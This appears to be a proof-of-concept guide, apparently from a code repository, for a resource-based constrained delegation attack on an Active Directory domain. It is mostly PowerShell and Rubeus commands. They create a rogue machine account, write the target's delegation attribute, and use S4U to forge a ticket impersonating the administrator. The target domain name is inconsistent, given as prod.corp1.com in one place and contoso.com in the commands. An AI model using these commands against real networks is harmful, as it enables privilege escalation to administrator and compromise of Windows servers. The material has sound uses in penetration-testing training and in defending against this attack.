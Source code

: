 **IMPORTANT NOTE:** ALL THIS PROCESS MUST BE PERFORMED FROM A POWERSHELL CONSOLE

1st We need an SPN in order to perform the attack and GENERALLY an ACL that give us write permission over the backend machine object we want to compromise(in this PoC it the backend machine will be APPSRV01, the user that have write perssions will be contoso\trike and the fronted SPN will be contoso\mycomputer$)

2nd Create a new computer machine object that will have an SPN assigned to it; creation of the machine with powermad 

`New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force);`

Checking the SPN for that computer with powerview:

`Get-DomainComputer -Identity myComputer`

3rd We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack:
	
 1. `$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid`	
 	
 2. `$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"`
	
 3. `$SDbytes = New-Object byte[] ($SD.BinaryLength)`
	
 4. `$SD.GetBinaryForm($SDbytes,0)`
	
 5. `Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`
	
4th After the SecurityDescriptor has been converted to the correct format, we can use Get-DomainComputer to obtain a handle to the computer object for APPSRV01 and then pipe that into Set-DomainObject , which can update properties by specifying them with -Set options:

VERIFICATION THAT WE SUCCESSFULLY WROTE THE "msds-allowedtoactonbehalfofotheridentity" correctly:
	
 1. `$RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity`
	
 2. `$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0`
	
 3. `$Descriptor.DiscretionaryAcl`   -> this will return us an SID in the SecurityIdentifier field, that we must convert
	
 4. `ConvertFrom-SID sid_number`  -> this must return us with: contoso\myComputer$
	
NOW WE WILL REQUEST A TGS FOR THE SPN: "CIFS/appsrv01.prod.corp1.com" USING RUBEUS AND THE S4USELF AND S4UPROXY(this part is very similar to constrained delegation)
	
 1. `.\Rubeus.exe hash /password:h4x`
	
 2. `.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.contoso.com /ptt`

(the msdsspn parameter can be somewhat tricky, so do you can try various SPNs, for example if CIFS/appsrv01.contoso.com didn't worked, you can try CIFS/appsrv01 or something like that). 
